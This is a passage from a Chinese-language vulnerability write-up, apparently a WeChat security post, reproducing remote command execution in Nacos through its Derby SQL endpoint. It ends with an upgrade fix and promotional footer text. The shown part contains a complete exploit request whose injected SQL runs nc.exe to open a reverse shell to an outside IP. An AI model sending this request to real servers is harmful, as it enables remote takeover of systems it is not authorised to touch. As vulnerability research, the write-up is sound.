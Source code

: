 **反弹shell**打开监听端口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjTx7hFgPqHzFfMaNMgykwg7ykDz7t7u5JwUNE3zzqP4AJVtmyx0kDMne3qDQQBHTUK7WiaUb3XWQg/640?wx_fmt=png&from=appmsg "")  
  
构造恶意请求  
```
GET /nacos/v1/cs/ops/derby?sql=select%20*%20from%20(select%20count(*)%20as%20b%2c%20S_EXAMPLE_jtZJBFpM('nc.exe%20-e%20cmd%20192.168.244.133%207777')%20as%20a%20from%20config_info)%20tmp%20%2f*ROWS%20FETCH%20NEXT*%2f HTTP/1.1
Host: 192.168.229.1:8848
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjTx7hFgPqHzFfMaNMgykwgiaogWxdl63TNF3QFghpRAzgsxOUWz5vaic3zSZrs98s5wZqSibQ5mgPkw/640?wx_fmt=png&from=appmsg "")  
  
成功收到 shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjTx7hFgPqHzFfMaNMgykwg8V4NOyuUR6TLBpHf75Aff825YQxy92ZEvZynJXLT4yhamVSN1DeZLQ/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
将组件 nacos 升级至 2.4.0 及以上版本  
## 参考链接  
  
https://www.oscs1024.com/hd/MPS-sxgr-j9ak  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群回复  
【SRC群】进入SRC-QQ交流群回复  
【新人】领取新人学习指南资料回复  
【面试】获取渗透测试常见面试题回复  
【合作】获取各类安全项目合作方式回复  
【帮会】付费加入SRC知识库学习回复  
【  
培训】  
获取TimelineSec官方培训课程详情  
  
  
视频号：搜索  
TimelineSec  
  
官方微博：[#小程序://微博/tPbUYdN9EucSD4C]()  
  
  
哔哩哔哩：  
https://space.bilibili.com/52459  
‍1903  
  
  
  
❤  
  
觉得有用就点赞转发在看吧！  
  
想看什么欢迎评论区留言～  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OkhKF2m1syrmlAus2fxnsxZBk4oIuTvAVIaL6pKgic5DEa8ynqo44GUwNML3ggkqMpbE1fiaLYvpPzeBrQJCS5bA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
